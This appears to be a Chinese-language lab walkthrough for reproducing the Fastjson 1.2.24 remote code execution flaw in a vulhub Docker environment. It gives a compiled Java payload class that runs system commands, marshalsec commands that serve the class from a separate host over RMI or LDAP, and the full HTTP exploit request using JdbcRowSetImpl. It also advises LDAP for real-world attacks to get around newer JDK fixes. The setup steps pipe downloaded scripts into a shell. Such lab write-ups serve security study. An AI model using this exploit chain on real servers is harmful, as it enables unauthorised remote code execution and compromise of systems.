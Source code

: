 # vulhub环境版本
## 环境搭建
### docker/docker compose安装
```
// Install pip
curl -s https://bootstrap.pypa.io/get-pip.py | python3

// Install the latest version docker
curl -s https://get.docker.com/ | sh

// Run docker service
service docker start

// Install docker compose
pip install docker-compose
```

### vulhub环境启动
```
// Download project
wget https://github.com/vulhub/vulhub/archive/master.zip -O vulhub-master.zip
unzip vulhub-master.zip
cd vulhub-master

// Enter the directory of vulnerability/environment
cd vulhub-master/fastjson/1.2.24-rce

// Compile environment
docker-compose build //可直接进行下一步

// Run environment
docker-compose up [-d]//后台运行
```

## 环境测试
访问 http://[ip]:8090 测试页

会有如下页面显示

```
{
	"age":25,
	"name":"Bob"
}
```

POST发送JSON包服务器会返回更新的信息

```
curl http://[ip]:8090 -H "Content-Type: application/json" --data '{"name":"hello", "age":20}'
```
或者BURP
```
POST / HTTP/1.1
Accept: */*
Accept-Language: zh-CN
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; WOW64; Trident/7.0; .NET4.0C; .NET4.0E; .NET CLR 2.0.50727; .NET CLR 3.0.30729; .NET CLR 3.5.30729; NMTE)
Host: 192.168.101.148:8090
Connection: close
Content-Length: 26
Content-Type: application/json
Accept-Encoding: gzip, deflate

{"name":"hello", "age":20}
```

![](\img\1.2.24-rce_p01.png)

此时可以发现JSON已经被解析，环境搭建成功。


## 漏洞复现
### 准备
1. Payload文件，是一个编译完的.class文件
2. WEB服务器存放Payload文件
3. marshalsec 启动RMI服务器加载远程类

### 开始复现
目标环境为JDK 8u102，没有com.sun.jndi.rmi.object.trustURLCodebase的限制，可以使用com.sun.rowset.JdbcRowSetImpl的利用链，借助JNDI注入来执行命令。

#### 编译并上传Payload至服务器。

Payload 代码
```java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```
>代码为使用Runtime的exec方法执行linux系统命令，在/tmp目录下创建一个success文件。

编译 Payload
```java
// 同目录下
javac [Payload_Name].java //如果使用上面的Payload的话Payload_Name就是TouchFile，注意要和Class的名称一样。
```

上传至服务器并访问测试

这里使用PHPStudy起一个web服务存放POC。
![](\img\1.2.24-rce_p02.png)

![](\img\1.2.24-rce_p03.png)

访问能直接下载即可。

#### 启动RMI服务
借助marshalsec，启动一个RMI服务器，监听端口，并制定加载远程类。

例：
```java
java -cp marshalsec.jar marshalsec.jndi.RMIRefServer "http://192.168.101.152:8080/Java/#TouchFile" 9999
```
URL中的类名不需要加.class但需要在最前面加上`"#"`,这里我监听的是9999端口，并且需要记住起RMI服务的服务器IP。

#### 发送Payload
Payload:
```
POST / HTTP/1.1
Host: [ip]:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 160

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://[RMI_ServerIP:Port]/[Class]",
        "autoCommit":true
    }
}
```

例：
这里在192.168.101.148上启动了RMI服务，侦听9999端口。
```
POST / HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 160

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.101.148:9999/TouchFile",
        "autoCommit":true
    }
}
```

使用BURP或者curl等工具发送

SpringBoot网页服务器端
![](\img\1.2.24-rce_p04.png)

RMI服务器端
![](\img\1.2.24-rce_p05.png)

进入docker镜像内部查看/tmp文件夹下，success文件创建成功
```bash
docker ps
docker exec -it [ID] /bin/bash
ls /tmp
```

![](\img\1.2.24-rce_p06.png)

复现完成。

## 坑
RMI服务器的JAVA版本不能过高，最好和目标服务器的JDK版本一致，否则可能出现不解析java类的状态。

## 建议实战环境使用LDAP进行注入

RMI协议利用方式在JDK 6u132 / 7u122 / 8u113及以上版本中已修复
LDAP协议利用方式在JDK 6u211 / 7u201 / 8u191及以上版本中已修复
且LDAP可以直接返回序列化对象，绕过对方使用的更高版本的JDK限制。

（RMI和LDAP两种服务协议启动方式）
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://[ip:port]/#[class]" [port]

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://[ip:port]/#[class]" [port]